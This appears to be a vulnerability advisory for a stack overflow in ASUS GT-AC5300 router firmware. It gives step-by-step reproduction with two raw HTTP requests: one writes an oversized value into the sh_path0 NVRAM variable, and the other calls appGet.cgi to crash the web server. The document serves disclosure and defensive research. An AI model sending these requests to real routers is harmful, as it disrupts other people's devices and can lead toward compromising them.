

# ASUS GT-AC5300 stack overflow #

**vender** ：ASUS

**Firmware version**: <=3.0.0.4.384_32738

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: https://www.asus.com

**Hardware Link**:https://www.asus.com/Networking/ROG-Rapture-GT-AC5300/HelpDesk_BIOS/

## Vul detail ##

Reproduction Steps:
1. Go to your wi-fi router gateway [i.e: http://router.asus.com]
1. login with admin
1. Set the value of the variable sh_path0
```
ReqRespType=VisSetNVRAM&NVRAMName=sh_path0&NVRAMValue=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX HTTP/1.1
Host: router.asus.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Referer: http://192.168.20.1/
Cookie: asus_token=1409814431151610434794402120814; clickedItem_tab=0
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1

```
1. Send request to crash the program。
```
GET /appGet.cgi?hook=select_list("Storage_x_SharedPath") HTTP/1.1
Host: router.asus.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
X-Requested-With: XMLHttpRequest
Referer: http://router.asus.com/GameDashboard.asp
Cookie: asus_token=95MZ36vhaRXUVNrDmY1BSZmuUzcloDk; clickedItem_tab=0
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

```
1. The bug is in the source code file https://github.com/RMerl/asuswrt-merlin/blob/master/release/src/router/httpd/web.c
